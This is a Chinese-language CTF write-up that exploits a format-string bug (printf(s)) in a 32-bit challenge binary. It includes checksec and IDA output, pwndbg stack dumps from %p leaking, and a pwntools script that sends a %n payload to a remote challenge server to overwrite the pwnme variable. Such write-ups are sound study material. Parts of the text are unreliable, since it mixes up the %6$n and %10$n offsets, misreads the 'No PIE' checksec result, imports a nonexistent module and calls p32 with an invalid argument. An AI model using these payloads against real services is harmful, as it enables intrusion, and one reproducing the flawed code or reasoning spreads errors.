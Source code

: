 1. checksec

   ```
   [*] '/home/kali/Desktop/e41a0f684d0e497f87bb309f91737e4d'
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```
   堆栈地址随机化，栈溢出保护开启，32位程序	
2. IDA静态分析：

   ```c
   int __cdecl main(int argc, const char **argv, const char **envp)
   {
     _DWORD buf[2]; // [esp+1Eh] [ebp-7Eh] BYREF
     __int16 v5; // [esp+26h] [ebp-76h]
     char s[100]; // [esp+28h] [ebp-74h] BYREF
     unsigned int v7; // [esp+8Ch] [ebp-10h]

     v7 = __readgsdword(0x14u);
     setbuf(stdin, 0);
     setbuf(stdout, 0);
     setbuf(stderr, 0);
     buf[0] = 0;
     buf[1] = 0;
     v5 = 0;
     memset(s, 0, sizeof(s));
     puts("please tell me your name:");
     read(0, buf, 0xAu);
     puts("leave your message please:");
     fgets(s, 100, stdin);
     printf("hello %s", (const char *)buf);
     puts("your message is:");
     printf(s);
     if ( pwnme == 8 )
     {
       puts("you pwned me, here is your flag:\n");
       system("cat flag");
     }
     else
     {
       puts("Thank you!");
     }
     return 0;
   }
   ```
   可以看到有可以利用的溢出函数，但由于栈保护开启，选择另一种利用方式，看到pwnme变量等于8即可获取flag
3. 观察到 `printf(s);`写法不规范导致格式化字符串漏洞，即利用%n参数，将上次标准输出的字符个数赋值给对应的参数，参数即为pwnme变量的地址，IDA查看得到  `0x0804A068`
4. 利用：

   栈顶是格式化字符串的参数，例如%d，%s，%n，参数之后就是等待输出的实参，可以先利用%p来泄露栈中的内容（格式化字符串的另一种利用方式），输入 `AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p`后，将这些字符存在了s数组中，调用printf打印时前四个A按字符串照常打印，而由于后边连续的%p丢失了参数，自动在栈上寻找对应的参数，我们看到如下数据

   ```
   pwndbg>   
   AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p
   pwndbg>   
   AAAA0xffffd28e0xf7e1d6200xffffd2f00xf7ffcff40x2c(nil)0x6b77d2f40xa79(nil)0x41414141
   0x080486d2 in main ()   
   pwndbg> x/20x $rsp  
   Value can't be converted to integer.   
   pwndbg> x/20x $esp   
   0xffffd270:     0xffffd298      0xffffd28e      0xf7e1d620      0xffffd2f0  
   0xffffd280:     0xf7ffcff4      0x0000002c      0x00000000      0x6b77d2f4  
   0xffffd290:     0x00000a79      0x00000000      0x41414141      0x70257025
   ```
   从 `0xffffd274`字节开始，后边的九个4字节的参数都是格式化字符串对应的实参，我们输入的AAAA在 `0xffffd298`字节处，为第十个格式化字符串对应的实参（也是s字符数组，在调用者的栈顶），若AAAA为p32编码后的 `0x0804A068（pwnme的地址）`，再将8写入该位置即可实现利用

   而将8写入利用到了另外一个参数，例如 `%6$n`，将标准输出的字符数赋值给格式化字符串的第6个参数，在本题中，若我们写入 `%10$n`即可将标准输出的字符数赋值给 `pwnme`，在栈中写入 `pwnme`的地址需要4字节，再写如四字节随机字母 `aaaa`，再写入 `%6$n`，即可构成 `0xffffd298+aaaa+%6$n`的利用
5. 实现

   ```python
   from pwn import *
   from pwn_p64 import *

   io = remote("61.147.171.105", 65024)

   payload = p32(0x0804A068, "hex") + b"aaaa%10$n"

   io.recvuntil("please tell me your name:".encode(encoding='utf-8'))
   io.sendline(b"wky ")

   io.recvuntil("leave your message please:".encode(encoding='utf-8'))
   io.sendline(payload)

   io.interactive()
   ```
